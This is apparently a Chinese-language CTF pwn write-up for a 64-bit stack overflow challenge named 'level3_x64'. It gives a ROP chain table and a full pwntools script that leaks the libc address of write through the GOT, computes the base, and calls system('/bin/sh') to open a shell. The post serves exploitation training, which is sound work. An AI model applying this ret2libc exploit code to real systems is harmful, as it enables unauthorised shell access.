 ```yaml
---
title: '{文件名}'
date: 2024-11-11 13:00:00 +0800
categories: [uaf,malloc_hook,unsortbin_leaklibc]
tags: [ctf,pwn]
---
```

![image-20231231181919311](../assets/img/old_imgs/image-20231231181919311.png)

- `64`位`libc`泄露

1. 漏洞函数中存在溢出
2. 使用溢出泄露`libc`
3. 构造`payload`获得`shell`

| rbp  |           |         |                                |                 |
| ---- | --------- | ------- | ------------------------------ | --------------- |
|      | padding   |         |                                | 0x80            |
|      |           |         |                                | 0x8             |
|      | pop_rdi   | ret     | 0x00000000004006b3             |                 |
|      | 0x1       | pop     |                                |                 |
|      | pop_rsi   | ret     | 0x00000000004006b1             |                 |
|      | write_got | pop_rsi | elf.got['write']               | 没找到更好的rop |
|      | 0x0       | pop_r15 |                                |                 |
|      | write_plt | ret     | elf.plt['write']               |                 |
|      |           | ret     | elf.sym['vulnerable_function'] |                 |

> 泄露`libc`payload1构造

```python
from pwn import *
#context.log_level = 'debug'
elf = ELF('level3_x64')
Lib = ELF('/lib/x86_64-linux-gnu/libc.so.6')
io = process('level3_x64')
#io = gdb.debug('./level3_x64','break vulnerable_function')
padding = 0x80
payload1 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(0x1)+p64(0x00000000004006b1)+p64(elf.got['write'])+p64(0x0)+p64(elf.plt['write'])+p64(elf.sym['vulnerable_function'])
io.sendlineafter(b'Input:\n',payload1)
write_addr = u64(io.recv(6).ljust(8,b'\x00'))
print('write_addr->',hex(write_addr))
Liboffset = write_addr - Lib.sym['write']
bin_sh_addr = Liboffset + next(Lib.search(b'/bin/sh'))
sys_addr = Liboffset + Lib.sym['system']
payload2 = b'A'*(padding+0x8)+p64(0x00000000004006b3)+p64(bin_sh_addr)+p64(sys_addr)
io.sendlineafter(b'Input:\n',payload2)
io.interactive()
```



